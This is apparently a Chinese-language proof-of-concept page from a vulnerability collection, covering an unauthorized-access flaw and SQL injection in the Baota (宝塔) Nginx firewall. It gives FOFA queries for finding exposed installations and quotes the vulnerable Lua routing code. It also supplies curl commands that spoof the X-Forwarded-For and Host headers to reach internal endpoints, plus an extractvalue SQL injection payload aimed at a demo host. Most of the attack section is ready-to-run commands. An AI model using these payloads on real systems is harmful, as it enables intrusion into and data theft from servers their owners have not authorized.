 ## 宝塔最新未授权访问漏洞及sql注入

WAF 防火墙 (宝塔 Nginx 防火墙) 存在 SQL 注入漏洞和未授权漏洞

## fofa
```
title=='404 - Website not exist!'

"宝塔"
```

## 未授权

漏洞代码
```
start = function ()
 ... 此处身略若干行
 if ngx.var.remote_addr == "127.0.0.1" and ngx.ctx.Server_name == "127.0.0.251" and ngx.var.host == "127.0.0.251" then
  if ngx.var.uri == "/get_btwaf_drop_ip" then
   Public.return_message(200, uv0.get_btwaf_drop_ip())
  elseif ngx.var.uri == "/remove_btwaf_drop_ip" then
   Public.return_message(200, uv0.remove_btwaf_drop_ip())
  elseif ngx.var.uri == "/clean_btwaf_drop_ip" then
   Public.return_message(200, uv0.clean_btwaf_drop_ip())
  elseif ngx.var.uri == "/updateinfo" then
   Public.return_message(200, uv0.updateInfo())
  elseif ngx.var.uri == "/get_site_status" then
   Public.return_message(200, uv0.get_site_status())
  elseif ngx.var.uri == "/get_global_status" then
   Public.return_message(200, uv0.get_global_status())
  end

  if ngx.var.uri == "/clean_btwaf_logs" then
   Public.return_message(200, uv0.clean_btwaf_logs())
  end

  if ngx.var.uri == "/clear_speed_hit" then
   Public.return_message(200, uv0.clear_speed_hit())
  end

  if ngx.var.uri == "/clear_replace_hit" then
   Public.return_message(200, uv0.clear_replace_hit())
  end

  if ngx.var.uri == "/reset_customize_cc" then
   Public.return_message(200, uv0.reset_customize_cc())
  end

  if ngx.var.uri == "/clear_speed_countsize" then
   Public.return_message(200, uv0.clear_speed_countsize())
  end
 end
end
```
### 接口
```
curl 'http://宝塔地址/API'  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'

curl 'http://btwaf-demo.bt.cn/get_site_status?server_name=bt.cn'  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'

```
## sql注入

```
curl "http://btwaf-demo.bt.cn/get_site_status?server_name='-extractvalue(1,concat(0x5c,database()))-'"  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'
```
![image](https://github.com/wy876/POC/assets/139549762/bbd89fb6-b9b7-4628-a33d-57fc7b8708e5)


## 漏洞来源
- https://mp.weixin.qq.com/s/7AqKcCS9puZgb9lG2KcAsg
- https://www.v2ex.com/t/1015932
